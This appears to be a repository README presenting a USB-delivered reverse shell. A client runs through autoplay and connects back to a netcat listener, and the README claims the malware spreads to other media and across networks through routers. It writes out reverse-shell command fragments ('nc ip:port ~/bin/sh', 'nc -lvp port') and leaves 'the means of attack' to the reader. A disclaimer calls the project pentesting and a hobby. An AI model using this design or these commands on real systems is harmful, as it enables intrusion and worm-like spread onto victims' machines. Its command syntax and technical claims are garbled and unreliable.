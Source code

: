 
# A Beginner's Guide to a Reverse Shell Usb 
*By US_ML_ehayashi1 and MarkAppprogrammer*


*Requires netcat for the user
Copyright (c) 2022 US_ML_ehayashi1, MarkAppprogrammer
All rights reserved.

This source code is licensed under the MIT-style license found in the
LICENSE file in the root directory of this source tree. 


In this repo we illustrate a basic client and server script for executing reverse shells. The basic theorized method for use is to download the client and cmd.txt onto a USB. *Please note that you must enable auto play for the client program to automatically execute once plugged in.* 

The program, in theory, would execute the client program, connecting to the server program which, in this case, would be made via a socket tcp connection(IPv4, socket stream). 

The server side would handle the different connections by multi-threading. Once exchanging a secure connection, the client script would execute a netcat command to create a reverse ssh(nc ip:port ~/bin/sh), enabling scripts to be run by the server side(listening via nc -lvp port)

The client script will be able to share the malware when a media device is plugged in therfore alowing the malware to spread. It will also be able to spread to the network using the client script to send infected packets to the router which will then spread to its devices.

After, the means of attack are up to you. We have provided a few simple scripts for you to utilize. Keep in mind, these programs are intended for basic pentesting and malware analysis, and were made as a fun hobby on the side, as an expression of creativity to exercise our knowledge.

*Please note that none of the authors, contributors, administrators, vandals, or anyone else connected with the makers of this repository/program, in any way whatsoever, can be responsible for your use of the information and code contained in or linked from these web pages.*
